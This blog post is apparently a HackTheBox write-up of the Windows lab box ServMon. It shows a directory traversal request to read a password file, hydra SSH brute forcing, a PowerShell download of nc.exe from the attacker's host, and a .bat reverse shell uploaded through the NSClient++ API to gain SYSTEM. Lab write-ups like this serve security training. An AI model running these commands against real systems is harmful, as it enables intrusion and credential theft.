 ```yaml
---
layout: post
title: "HackTheBox - ServMon"
author: "joona"
---
```


![](/images/servmon/sermon.jpg)
ServMon is an easy Windows box where the initial access is achieved with the help of a directory traversal
vulnerability. The privilege escalation to NT AUTHORITY\SYSTEM requires exploiting a service monitoring
agent called NSClient++. The privilege escalation proof of concept gave me some pain, but I
managed to figure it out in the end. Fun box!

<br/>
### Nmap results
{% highlight plaintext %}
# Nmap 7.80 scan initiated Sun Apr 12 13:28:28 2020 as: nmap -p- -A -T4 -oA nmap/servmon 10.10.10.184
Nmap scan report for 10.10.10.184
Host is up (0.049s latency).
Not shown: 65517 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst:
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp    open  http
| fingerprint-strings:
|   GetRequest, HTTPOptions, RTSPRequest:
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo:
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL:
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5666/tcp  open  tcpwrapped
6063/tcp  open  x11?
6699/tcp  open  napster?
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
{% endhighlight %}

<br/>
### FTP enumeration
Like the nmap scan says, the FTP server allows anonymous login.<br/>
There we have two files: `Confidential.txt` and `Notes to do.txt`.<br/>

Confidential.txt:
{% highlight plaintext %}
Nathan,
I left your Passwords.txt file on your Desktop.  
Please remove this once you have edited it yourself and place it back into the secure folder.
Regards
Nadine
{% endhighlight %}

Notes to do.txt:
{% highlight plaintext %}
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
{% endhighlight %}

So we have two usernames, Nathan and Nadine. We also now know that Nathan has a Passwords.txt file on his Desktop folder.
The path for this is most likely C:\Users\Nathan\Desktop\Passwords.txt.

<br/>
### Website enumeration
On port 80 we are redirected to `http://10.10.10.184/Pages/login.htm` where we have a `NVMS-1000` login page.
Using `searchsploit nvms` we see that NVMS-1000 is vulnerable to a [directory traversal](https://packetstormsecurity.com/files/155663/NVMS-1000-Directory-Traversal.html).

The proof of concept for this shows directory traversal is possible with the following payload:
{% highlight plaintext %}
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
{% endhighlight %}

Let's intercept the HTTP request with Burp Suite by refreshing the NVMS-1000 login page and change
the GET request to:
{% highlight plaintext %}
GET /Pages/login.htm/../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
{% endhighlight %}
![](/images/servmon/directory_traversal.jpg)

With this we get a list of passwords. I saved these to a file called pass.txt and started brute forcing.<br/>
Brute forcing the FTP server did not give any results, but the SSH matched a password to user Nadine:
{% highlight plaintext %}
hydra -L users.txt -P pass.txt ssh://10.10.10.184
{% endhighlight %}
![](/images/servmon/ssh_hydra.jpg)

<br/>
### Privilege Escalation
Logging in as Nadine via SSH and enumerating the host I found a program called `NSClient++`.<br/>
Inside the NSClient++ install folder we have file `nsclient.ini` which has a password and states
that only allowed hosts are the localhost.

![](/images/servmon/nsclientini.jpg)

Looking at the open ports with `netstat -ano` I saw port `8443` was listening on the localhost.<br/>
This port was not detected by the nmap scan.<br/>

I decided to create a reverse SSH tunnel to see what is the deal with this port:<br/>
{% highlight plaintext %}
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
{% endhighlight %}
`-L` = create a local SSH tunnel<br/>
`8443` = the port we want to use on our machine (can be any port)<br/>
`127.0.0.1:8443` = connect to port 8443 on the local machine (target machine)<br/>
`nadine@10.10.10.184` = establish the tunnel as user Nadine<br/>

Now we can open the site on our machine: `https://127.0.0.1:8443`<br/>
![](/images/servmon/nsclient.jpg)

I used the password found in `nsclient.ini` file to log in. After this my goal was to
find the version of the install NSClient++. The web interface did not leak this, so
I took a look inside the install folder where there was `changelog.txt` with last update in
early 2018. This meant we probably are dealing with an old ass version, which more than likely
is vulnerable to something.<br/>

Researching this I found a [privilege escalation from 2019](https://www.exploit-db.com/exploits/46802).
The PoC has you doing all kind of funky stuff on the web interface scheduling external scripts and what not.<br/>
I had no success replicating this via the GUI, so I decided to take a different route.<br/>

Digging through the [NSClient++ documentation](https://docs.nsclient.org/api/rest/scripts/), we see that we can do this with the API.
We can list the available scripts:
{% highlight plaintext %}
curl -s -k -u admin https://localhost:8443/api/v1/scripts/ext?all=true | python -m json.tool
{% endhighlight %}

I created a simple .bat-file reverse shell script that I would upload and run.<br/>
ebin.bat:
{% highlight plaintext %}
@echo off
C:\Temp\nc.exe 10.10.14.16 8808 -e cmd.exe
{% endhighlight %}

<br/>
For this we need to upload a `nc.exe` binary to the target host.<br/>
Kali most likely has nc.exe on there by default (`locate -i nc.exe`), but you can also download it for example from [packetstormsecurity](https://packetstormsecurity.com/files/31140/nc.exe.html).<br/>

Navigate to C:\Temp folder on the target host and download the file:
{% highlight plaintext %}
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.31:8000/nc.exe', 'nc.exe')"
{% endhighlight %}

<br/>
Back on our machine, upload the script to NSClient++ and setup a listener to catch that reverse shell:
{% highlight plaintext %}
curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/ebin.bat --data-binary @ebin.bat
nc -lvnp 8808
{% endhighlight %}

Now we can go to the web GUI console (`https://127.0.0.1:8443/index.html#/console`) and run the script by
just typing `ebin` and pressing Run.

We get a reverse shell as NT AUTHORITY\SYSTEM on our port 8808 listener. <br/>
Rooted :)

Don't forget to remove the script.
{% highlight plaintext %}
# Delete the definition of the script:
curl -s -k -u admin -X DELETE https://localhost:8443/api/v1/scripts/ext/ebin
# Remove the script
curl -s -k -u admin -X DELETE https://localhost:8443/api/v1/scripts/ext/scripts/ebin.bat
{% endhighlight %}

Thank you for reading!
